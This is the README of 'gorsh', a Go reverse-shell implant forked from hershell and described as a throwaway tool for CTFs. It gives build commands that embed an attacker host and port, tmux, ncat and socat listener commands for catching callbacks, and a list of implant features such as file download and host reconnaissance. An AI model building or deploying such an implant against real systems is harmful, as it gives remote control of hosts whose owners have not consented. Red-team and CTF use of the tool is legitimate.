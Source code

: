 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/pvCmHYa.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes
Changes after fork:

* Uses tmux as a pseudo-C2-like interface, creating a new window with each agent callback
* Download files with HTTP on all platform
* Download files with SMB on all windows
* Situational Awareness output on new shells
* Removed Meterpreter functionality
* Removed Shellcode execution
* Remove the use of passing power/shell commands at the gorsh prompt
* Add common file operation commands that use go instead of power/shell

Roadmap:

- [ ] Potentially add reverse socks5 proxy functionality - Using
[Numbers11/rvprxmx](https://github.com/Numbers11/rvprxmx)
- [ ] Recon module for analyzing things like tasks, services, and host-based protections
- [ ] Dotnet integration so `shell` drops into a Runspace with System.Management.Automation. 
      Bacially PowerShell without PowerShell.


## Getting started

This project makes use of libraries that ue CGO which means you need native libraries for the
platform and architecture for which you are trying to build.

Specifically for this project, macOS and Linux targets will build just fine but to build for
Windows, a bit of setup is required.

```sh
# debian
sudo apt install gcc-mingw-w64
```

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

### Building the payload

First, you'll need to generate your certs:

```bash
$ make depends
```

To simplify things, read the provided Makefile. You can set the following environment variables:

- `GOOS`: the target OS
- `GOARCH`: the target architecture
- `LHOST`: the attacker IP or domain name
- `LPORT`: the listener port

See possible`GOOS`and`GOARCH`variables [here](https://golang.org/doc/install/source#environment).

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
```

## Catching the shell

The `local/start.sh` kicks off a tmux session and creates new windows on every new connection.
Feed it a port number to listen on and an `&` to send it to the background, if you'd like. 

```sh
cd local
./start.sh 443 &

# once a client connects
tmux attach -t GORSH
```

Shells can also be caught with:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the gorsh shell.
Type `help` to show what commands are supported.

## Credits

Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`

Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
